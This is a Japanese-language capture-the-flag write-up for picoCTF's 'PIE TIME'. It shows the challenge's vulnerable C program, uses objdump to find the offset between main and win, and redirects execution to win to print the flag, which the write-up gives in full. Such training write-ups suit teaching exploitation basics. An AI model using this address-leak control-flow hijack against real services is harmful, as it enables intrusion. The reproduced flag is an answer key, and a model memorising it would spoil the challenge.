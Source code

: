 ## PIE TIME

### 問題文

Can you try to get the flag? Beware we have PIE!
Connect to the program with netcat:
`$ nc rescued-float.picoctf.net 54778`
The program's source code can be downloaded here. The binary can be downloaded here.

---

まずは、提供されたソースコードをwgetで取得する。  
vuln と vuln.c が取得できた。  

下のようなコードだった。  
win関数にアクセスできれば、Flagをゲットできるみたいだが、win関数の呼び出しが見当たらない。

```c
/* 重要な部分のみ抜き出しています */
int win() {
    FILE *fptr;
    fptr = fopen("flag.txt", "r");
}

int main() {
  signal(SIGSEGV, segfault_handler);
  setvbuf(stdout, NULL, _IONBF, 0); // _IONBF = Unbuffered

  printf("Address of main: %p\n", &main);

  unsigned long val;
  printf("Enter the address to jump to, ex => 0x12345: ");
  scanf("%lx", &val);
  printf("Your input: %lx\n", val);

  void (*foo)(void) = (void (*)())val;
  foo();
}
```

実行してみる。  
`$ nc rescued-float.picoctf.net 54778`

![](./image.png)

実行すると、main関数の置かれているアドレスが確認できた。  
その後、ジャンプしたいアドレスを入力するようだ。

ここで、win関数のアドレスを入力すればよさそう。

以下のコマンドでvulnファイルを逆アセンブルする。

`objdump -D vuln > b.txt`  
結果  
```binary
00000000000012a7 <win>:

...

000000000000133d <main>:
```

このことからwinとmainの間には、 0x96 の差があることがわかる  

したがって、mainのアドレス - 0x96 = winのアドレス ということが分かった。  

実行する。

1. mainのアドレスが、0x5a5e61b6233d
2. 0x5a5e61b6233d - 0x96 = 0x5A5E61B622A7
3. 0x5A5E61B622A7 をジャンプ先として、入力
4. Flagがゲットできた

picoCTF{b4s1c_p051t10n_1nd3p3nd3nc3_93dd5fcb}